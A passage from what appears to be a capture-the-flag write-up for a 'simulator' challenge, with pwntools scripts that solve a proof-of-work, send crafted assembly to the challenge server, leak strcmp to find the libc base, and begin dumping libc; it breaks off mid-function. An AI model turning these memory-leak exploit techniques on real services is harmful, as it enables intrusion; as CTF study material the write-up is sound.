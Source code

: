 ```python

prog = log.progress('Solving PoW')
conn = pow(True)
prog.success()

prog = log.progress('Sending code')
conn.sendline(code)
conn.sendline('END')
prog.success()

prog = log.progress('Leaking strcmp')
strcmp = int(conn.recvline()) & 0xffffffff
prog.success('0x{:08x}'.format(strcmp))

prog = log.progress('Finding libc base')
try:
    while True:
        val = int(conn.recvline())
        libc = ((val * 8 + 0x4000004) & 0xffffffff) & ~0xfff
except (EOFError, ValueError):
    pass
prog.success('0x{:08x}'.format(libc))

log.info('Offset = 0x{:x}'.format(strcmp - libc))
```

### Dumping libc

Now that we know where the libc base is (relative to `strcmp`), we wrote another script to dump libc.
The address calculation is very similar to the previous script.
We can only read at addresses congruent to 4 (mod 8), so we'll get a dump that alternates between 4 unknown bytes and 4 leaked bytes.
This is the script:

```python
#!/usr/bin/env python2

from pwn import *
import itertools
from hashlib import sha256

def pow(todo=False):
    if(todo ==  True):
        conn = remote("simulator.2018.teamrois.cn", 3131)
        chall = conn.recvuntil("\n").split("\n")[0]
        alpha = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789'
        for a,b,c,d in itertools.product(alpha, repeat=4):
            if(sha256(chall + a + b + c + d).digest().startswith('\0\0\0') == True):
                sol = a + b + c + d
                break;
        conn.sendline(sol)
        return conn
    else:
        return process('./simulator')

def div8():
    lines = []
    lines.append('li $v0, 0')
    lines.append('li $t0, 1')
    for i in reversed(range(3, 32)):
        lines.append('li $t1, {}'.format(2**i))
        lines.append('slt $t2, $a0, $t1')
        lines.append('beq $t2, $t0, div8_{}'.format(i-1))
```